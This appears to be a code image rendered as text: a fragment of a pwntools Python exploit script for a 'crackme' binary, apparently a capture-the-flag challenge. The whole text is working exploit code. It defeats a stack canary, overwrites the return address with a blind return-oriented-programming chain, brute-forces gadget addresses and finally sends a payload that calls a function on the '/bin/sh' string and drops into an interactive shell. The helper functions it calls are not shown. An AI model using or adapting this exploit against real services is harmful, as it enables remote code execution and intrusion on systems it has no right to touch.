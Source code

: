 ```python
Stage 1
'''

# buf_size = get_buffer_size()
buf_size = 16
log.success("buf_size: 0x%x" % buf_size)

canary = get_canary()
log.success("canary: 0x%x" % canary)

# ra_offset = get_ra_offset()
ra_offset = 12
log.success("ra_offset: %d" % ra_offset)

# stop_addr_list = get_stop_addr()
# stop_addr_list = [0x80486cf, 0x8048814, 0x8048840, 0x8048841, 0x804884f, 0x8048859, 0x8048912, 0x8048914, 0x8048926, 0x8048929]
# for i in stop_addr_list:
#     print(hex(i), end=', ')
stop_addr = 0x8048814
log.success("stop_addr: 0x%x" % stop_addr)

# write_plt = get_write_plt()
write_plt = 0x8048560
log.success("write plt: 0x%x" % write_plt)

# code_bin = dump_memory(0x8048000, 0x8048000+0x1000)
# with open('crackme/code03.bin', 'wb') as f:
#     f.write(code_bin)
#     f.close()

'''
Stage 2
'''

binsh_addr = 0x08048BA8
binls_addr = 0x08048BB1

# context.log_level = 'DEBUG'

# for addr in range(0x8048500, 0x8048000+0x1000):
#     payload = b'A' * buf_size + p32(canary) + b'A' * ra_offset
#     payload += p32(addr) + p32(stop_addr)
#     payload += p32(binls_addr)

#     go_to_recv(1)
#     p.send(payload)

#     tmp = go_to_recv(1)

#     if tmp[0:3] != b'[-]' and tmp[0:3] != b'[+]':
#         log.info('0x%x %s' % (addr, tmp))

p.send(b'A' * buf_size + p32(canary) + b'A' * ra_offset +
       p32(0x8048520) + p32(stop_addr) + p32(binsh_addr))
p.interactive()
```
